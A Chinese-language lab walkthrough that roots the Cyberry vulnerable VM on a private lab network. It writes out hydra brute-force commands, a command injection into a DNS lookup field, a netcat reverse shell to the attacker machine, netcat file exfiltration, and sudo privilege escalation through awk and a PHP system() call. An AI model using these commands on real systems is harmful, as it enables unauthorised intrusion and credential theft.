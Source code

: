 > 原文链接: https://www.anquanke.com//post/id/154504 


# Cyberry靶机渗透测试


                                阅读量   
                                **217441**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">10</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t010ee3d2cd4c6e23b4.jpg)](https://p5.ssl.qhimg.com/t010ee3d2cd4c6e23b4.jpg)

## 环境准备

靶机ip：192.168.107.132<br>
攻击机kali：192.168.107.134<br>
说明：目的是拿下靶机并获取root权限



## 渗透测试

首先nmap开路，找一下靶机的ip地址`nmap -sP 192.168.107.1/24`[![](https://p5.ssl.qhimg.com/t01b657b590a3a80e2c.png)](https://p5.ssl.qhimg.com/t01b657b590a3a80e2c.png) 既然确定了ip，接着我们扫一下端口。[![](https://p2.ssl.qhimg.com/t01a1ace920bde7c4be.png)](https://p2.ssl.qhimg.com/t01a1ace920bde7c4be.png)开了三个端口，1个web端口80，1个ssh端口22，1个ftp端口21.我们先从web服务开始。[![](https://p3.ssl.qhimg.com/t013a48c4bffa6b296a.png)](https://p3.ssl.qhimg.com/t013a48c4bffa6b296a.png) 一个静态页面，没什么搞头，扫一下目录。[![](https://p4.ssl.qhimg.com/t019704401d1c8f43f2.png)](https://p4.ssl.qhimg.com/t019704401d1c8f43f2.png) 我先从phpmyadmin下手，[![](https://p0.ssl.qhimg.com/t015b52bcae0e866a9e.png)](https://p0.ssl.qhimg.com/t015b52bcae0e866a9e.png)这里尝试爆破弱口令，结果失败，看来不是从这里入手，接着去/login.php界面看看，试了半天，好像也不是什么注入，结果发现这里有点东西，[![](https://p4.ssl.qhimg.com/t015336c2fcb057905f.png)](https://p4.ssl.qhimg.com/t015336c2fcb057905f.png)点进去，[![](https://p2.ssl.qhimg.com/t01baef417fe747dc14.png)](https://p2.ssl.qhimg.com/t01baef417fe747dc14.png)前面几个点进去是404，这一个就有东西了， [![](https://p3.ssl.qhimg.com/t018149c52db740eeba.png)](https://p3.ssl.qhimg.com/t018149c52db740eeba.png)这样一张图片。用图片编辑器调一下，[![](https://p1.ssl.qhimg.com/t01e3adfe1bf193f9b4.png)](https://p1.ssl.qhimg.com/t01e3adfe1bf193f9b4.png)这里就很有意思了，有四个人，最上方还有一部分，出现了PORT字样，一时半会有些蒙蔽，但是显然这个靶机入口就在这里了(总不会无缘无故给一张这样的图吧- -)。然后，我分别把这四个人截图下来，用浏览器的识别功能去查了这四个人，了解了一下各个人的信息，这四个人分别是Smiley Lewis, Dave Edmunds, Fats Domino和Gale Storm，首先，他们都是艺术家，都演奏了同一首歌曲，名字叫，”I hear you knocking”，年份分别是，1970，1955，1955，1961，这差不多是共同点了，还是很蒙蔽0.0，这里结合了知识面和脑洞。。原来跟knock有关，linux下有个命令knock可供安装使用，`端口试探（port knocking）`是一种通过连接尝试，从外部打开原先关闭端口的方法。一旦收到正确顺序的连接尝试，防火墙就会动态打开一些特定的端口给允许尝试连接的主机，知道这个就明白上面那个PORT的意思了，显然是有某个端口没有被打开，需要我们knock开。那年份就要用上了，从左上依次到右下`knock 192.168.107.132 1970 1955 1955 1961`。knock之后，再来扫描端口，从1-65535[![](https://p0.ssl.qhimg.com/t01a741fbe9fd68a620.png)](https://p0.ssl.qhimg.com/t01a741fbe9fd68a620.png)发现了一个端口开放了，我们访问，[![](https://p5.ssl.qhimg.com/t010da45d4e5c282b1b.png)](https://p5.ssl.qhimg.com/t010da45d4e5c282b1b.png)还是这个页面，但是既然端口不一样，那肯定存在的页面也会有差异，我们这次使用kali下的dirb扫描目录,[![](https://p1.ssl.qhimg.com/t01d3a939c16652509b.png)](https://p1.ssl.qhimg.com/t01d3a939c16652509b.png)这里，多了个H目录，访问，[![](https://p3.ssl.qhimg.com/t012d89daff065c788c.png)](https://p3.ssl.qhimg.com/t012d89daff065c788c.png)这种语言在CTF中见过，brain-fuck，于是乎，Google一个在线翻译，解密，内容如下，[![](https://p0.ssl.qhimg.com/t01aaf6e1dace46e758.png)](https://p0.ssl.qhimg.com/t01aaf6e1dace46e758.png)明显上面几个是用户名，下面pw那个是密码，想到前面开了ftp和ssh，把目标转向了ssh和ftp，先看看能不能登陆ssh，这里我用hydra进行爆破，先把刚才的用户名和密码保存在本地[![](https://p4.ssl.qhimg.com/t01ef5b49b48c5a989f.png)](https://p4.ssl.qhimg.com/t01ef5b49b48c5a989f.png) .hydra命令如下，`hydra -L /root/user.txt -P /root/pw.txt ssh://192.168.107.132 -t 6`[![](https://p2.ssl.qhimg.com/t01abbf945a32813b0d.png)](https://p2.ssl.qhimg.com/t01abbf945a32813b0d.png) 爆破成功，直接去登陆ssh,`ssh [mary@192.168.107](mailto:mary@192.168.107).132`。结果登不进去[![](https://p4.ssl.qhimg.com/t0182ed2388fdb89e48.png)](https://p4.ssl.qhimg.com/t0182ed2388fdb89e48.png)被墙了？不知道。。总之就是我们被拒绝了，ssh这条路看来走不通了。。。换个思路，爆破ftp。[![](https://p2.ssl.qhimg.com/t01d4472b51a3d21a59.png)](https://p2.ssl.qhimg.com/t01d4472b51a3d21a59.png)还是这个用户名和密码，`ftp 192.168.107.132`[![](https://p3.ssl.qhimg.com/t0101a46844bb5ad535.png)](https://p3.ssl.qhimg.com/t0101a46844bb5ad535.png)成功登陆，接着，用`ls -la`看看文件，[![](https://p1.ssl.qhimg.com/t0184b63586ddbc6650.png)](https://p1.ssl.qhimg.com/t0184b63586ddbc6650.png)在.bash_history目录，发现有两个文件，get到kali本地，命令，`get .trash` `get .reminder.enc`。接着到本地看看文件类型，[![](https://p3.ssl.qhimg.com/t01f2fbcdeb7659b59f.png)](https://p3.ssl.qhimg.com/t01f2fbcdeb7659b59f.png)一个是openssl enc加密，一个是文本，我们看看文本内容[![](https://p0.ssl.qhimg.com/t01b9c4de82b4b12713.png)](https://p0.ssl.qhimg.com/t01b9c4de82b4b12713.png)应该就是密码了，网上找了个脚本，直接放在命令行用，

```
for i in `openssl enc -ciphers | tail -n +2` ; do for j in `cat .trash`; do openssl $`{`i:1`}` -d -salt -md md5 -in .reminder.enc -out "decrypted$i$j" -k $j; done;done 2&gt;/dev/null
```

[![](https://p0.ssl.qhimg.com/t01a3e57586d760f02c.png)](https://p0.ssl.qhimg.com/t01a3e57586d760f02c.png)解密完后，[![](https://p5.ssl.qhimg.com/t01d2c8c2dd4c012c6e.png)](https://p5.ssl.qhimg.com/t01d2c8c2dd4c012c6e.png)找一下我们想要的文本文件，`file * | grep "text"` [![](https://p3.ssl.qhimg.com/t01e11e1e43cc6390ac.png)](https://p3.ssl.qhimg.com/t01e11e1e43cc6390ac.png)`cat`查看一下，[![](https://p4.ssl.qhimg.com/t01d2a7cb943e679f24.png)](https://p4.ssl.qhimg.com/t01d2a7cb943e679f24.png)这个dangleberry69大概就是什么登陆密码，好像暂时没什么地方用到登陆了，别忘了我们web网站上还有一个登陆处，用mary和拿到的密码去登陆一下，`http://192.168.107.132:61955/login.php`[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t015bac086c568f8328.png)登陆成功，页面有两个链接，第一个就是一个视频播放，没什么用，第二个是个DNS解析的页面。[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t011aa797e8aea18674.png) 只给了一个yahoo和google，看着像是一个代码执行的洞，我尝试在前台修改一下，看看能不能执行其他的东西[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0121e9269ce1f78c20.png) 修改，添加`google;whoami`。然后，提交[![](https://p5.ssl.qhimg.com/t0169a042e0d0fb8142.png)](https://p5.ssl.qhimg.com/t0169a042e0d0fb8142.png)果然，执行了代码，这样，我便想反弹一个shell，先在攻击机上执行`nc -lvp 4444`[![](https://p3.ssl.qhimg.com/t01a66d21e748ef339f.png)](https://p3.ssl.qhimg.com/t01a66d21e748ef339f.png) 接着，在前台修改value值为 `google;nc -e /bin/bash 192.168.107.133 4444` [![](https://p1.ssl.qhimg.com/t01c906e5906b866bc1.png)](https://p1.ssl.qhimg.com/t01c906e5906b866bc1.png)等几秒钟，查看攻击机[![](https://p0.ssl.qhimg.com/t01a66d21e748ef339f.png)](https://p0.ssl.qhimg.com/t01a66d21e748ef339f.png) 已经反弹到shell了，看着很不舒服，用python引入一个交互式shell，`python -c "import pty;pty.spawn('/bin/bash')"`[![](https://p4.ssl.qhimg.com/t013e0e03e3f596f8d9.png)](https://p4.ssl.qhimg.com/t013e0e03e3f596f8d9.png) 查看当前目录下的文件，有个nb-latin，查看内容 [![](https://p4.ssl.qhimg.com/t0102ad504ae35dcfb4.png)](https://p4.ssl.qhimg.com/t0102ad504ae35dcfb4.png) 看着要不是用户名，要不就是密码，先下载到攻击机上，shell上命令`nc -w 3 192.168.107.132 4444&lt; nb-latin` kali终端上`nc -lvp 4444 &gt; pass.txt`。[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01fa09d48f7e679ed5.png)用之前的用户名字典和这个密码字典试试ssh登陆，还是上hydra，`hydra -L /root/user.txt -P /root/pass.txt ssh://192.168.107.132 -t 6` [![](https://p2.ssl.qhimg.com/t0185c86fc72f7ed24a.png)](https://p2.ssl.qhimg.com/t0185c86fc72f7ed24a.png)登陆ssh，这下成功了，没有出错，看下文件，运行sh<br>[![](https://p2.ssl.qhimg.com/t014c1e57831720b59e.png)](https://p2.ssl.qhimg.com/t014c1e57831720b59e.png)发现我们基本上没有权限，什么都运行不了，应该会有个地方有权限的设定，于是想到了`sudo -l`命令，列出目前用户可执行的指令，[![](https://p5.ssl.qhimg.com/t01282848ef01625b02.png)](https://p5.ssl.qhimg.com/t01282848ef01625b02.png) 确实，我们可以用terry的权限去执行刚才那两个我们没有权限的文件，命令`sudo -u terrt ./invoke.sh`,[![](https://p2.ssl.qhimg.com/t0170995c8d52542167.png)](https://p2.ssl.qhimg.com/t0170995c8d52542167.png) 通过测试，我发现需要带一个参数，而且这个参数是将要被打开的文件 ，我试着把参数改为/bin/bash，发现，我们用户切换为terry了[![](https://p5.ssl.qhimg.com/t0116f6f5d869861b8d.png)](https://p5.ssl.qhimg.com/t0116f6f5d869861b8d.png)同样，用上面的方法`sudo -l`，发现有一个文件可以用halle的权限去执行，[![](https://p0.ssl.qhimg.com/t01f779a0108e67c2f9.png)](https://p0.ssl.qhimg.com/t01f779a0108e67c2f9.png)这里的这个文件是awk，awk是linux下一种文本处理工具，有他自己的语法，按照这个思路，我们需要通过awk的命令，将用户变为halle，用BEGIN命令，引入system全局变量，执行/bin/bash，`sudo -u halle awk 'BEGIN`{`system("/bin/bash")`}`'`,发现我们已经变成halle了，[![](https://p0.ssl.qhimg.com/t015284b0b2addab6ed.png)](https://p0.ssl.qhimg.com/t015284b0b2addab6ed.png)再进行`sudo -l`,[![](https://p2.ssl.qhimg.com/t01bb5d81da1c2073e2.png)](https://p2.ssl.qhimg.com/t01bb5d81da1c2073e2.png) halle可以用chuck的权限执行php，这里踩坑了，最后做法是，我们写一个php文件去执行系统命令，然后用php文件去读chuck目录下的文件，先将文件写入/tmp目录，因为/tmp目录一般来说都可以读，`echo "&lt;?php system('ls -la /home/chuck')?&gt;" &gt; /tmp/1.php`,然后用`sudo -u chuck /usr/bin/php /tmp/1.php` 执行，可以发现执行成功了。（注意，直接打开/tmp/1.php是没有权限的，只有用chuck的身份去打开）[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0186ca67c373b59a7b.png) 我们再去写一个读.deleted目录下的文件，`echo "&lt;?php system('ls -la /home/chuck/.deleted')?&gt;" &gt; /tmp/1.php`.接着`sudo -u chuck /usr/bin/php /tmp/1.php`.执行，[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ddfd12063fa69983.png) 有两个文件，先看看ssh_stuff里有什么，[![](https://p5.ssl.qhimg.com/t01f82b82137563944f.png)](https://p5.ssl.qhimg.com/t01f82b82137563944f.png)发现了rsa公钥，但没法进行免密登陆ssh，我们条件没法实现，所以看看另一个文件deleted，[![](https://p2.ssl.qhimg.com/t01cd4bc126353f59d4.png)](https://p2.ssl.qhimg.com/t01cd4bc126353f59d4.png) 打开后，发现了类似密码的邮件， [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01b123233fcd581902.png)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01274696d1e754e385.png) 右侧文本文件是我自己创建的记录，开头是che，结尾是rry，中间有baca，还有一些字母出现次数的说明，那么接下来就是爆破密码了，直接暴力，用kali下的自带工具 crunch 生成密码[![](https://p3.ssl.qhimg.com/t01de51344aaf2cca29.png)](https://p3.ssl.qhimg.com/t01de51344aaf2cca29.png)由于文件有点大，先生成好，再把他们合成为一个文件。[![](https://p2.ssl.qhimg.com/t0108ef2ac5c77870c1.png)](https://p2.ssl.qhimg.com/t0108ef2ac5c77870c1.png) 接着用hydra爆破。爆了一万年。。[![](https://p0.ssl.qhimg.com/t016b1e2f3a08085df3.png)](https://p0.ssl.qhimg.com/t016b1e2f3a08085df3.png) 接着直接登陆ssh，[![](https://p0.ssl.qhimg.com/t0177ed60b15f7fb0a0.png)](https://p0.ssl.qhimg.com/t0177ed60b15f7fb0a0.png) 可以看到已经是root了，至此靶机提升root已完成。



## 参考链接

[http://www.sohu.com/a/161766202_709042](http://www.sohu.com/a/161766202_709042) 【tty交互式shell】<br>[https://en.wikipedia.org/wiki/Port_knocking](https://en.wikipedia.org/wiki/Port_knocking) 【Port_knocking】<br>[http://www.runoob.com/linux/linux-comm-awk.html](http://www.runoob.com/linux/linux-comm-awk.html) 【awk】
